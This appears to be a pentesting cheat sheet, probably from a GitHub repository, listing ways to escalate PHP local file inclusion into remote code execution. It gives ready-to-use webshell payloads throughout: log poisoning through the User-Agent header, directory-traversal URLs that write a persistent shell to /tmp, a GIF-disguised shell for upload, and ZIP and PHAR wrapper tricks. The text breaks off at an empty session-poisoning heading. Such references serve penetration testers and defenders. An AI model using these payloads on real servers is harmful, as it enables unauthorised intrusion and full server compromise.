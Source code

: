 **Log poisioning**

 1. Browse some URL with BrupSuite or ZAP and change the `User-Agent` field in the header to:  
`<?php echo system($_GET["c"]); ?>`
 2. Use the **access.log** to write a new shell to `/tmp`:  
`https://pentest-experts.com/read.php?file=../../../../../var/log/apache2/access.log&c=echo+'<?php+echo+system($_GET["c"]);+?>'>/tmp/s.php`
 3. Utilize the new shell:  
`https://pentest-experts.com/read.php?file=../../../../../tmp/s.php&c=ls+-l+/var/www/html/`

The User-Agent header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a number usually between 0-50).

Try also poisioning other logs like FTP or mailserver logs, which may log usernames after login attempts, etc. 

**Upload a image-file containing a webshell**

```php
GIF89a<?php system($_GET["c"]); ?>
```

Store this shell as `me.gif`, upload it to the webserver (e.g. as profile image) and include it then.

**Using the ZIP wrapper**

```bash
echo '<?php system($_GET["c"]); ?>' > shell.php && zip shell.zip shell.php
```

Upload this file and incude it with

`?vuln_param=zip://./upload_dir/shell.zip%23shell.php?c=whoami`

**Using PHAR**

Create this php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Then compile it into a phar file and rename it to jpg:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload this file and incude it with

`?vuln_param=phar://./upload_dir/shell.jpg%2Fshell.txt?c=whoami`

**PHP session poisioning**

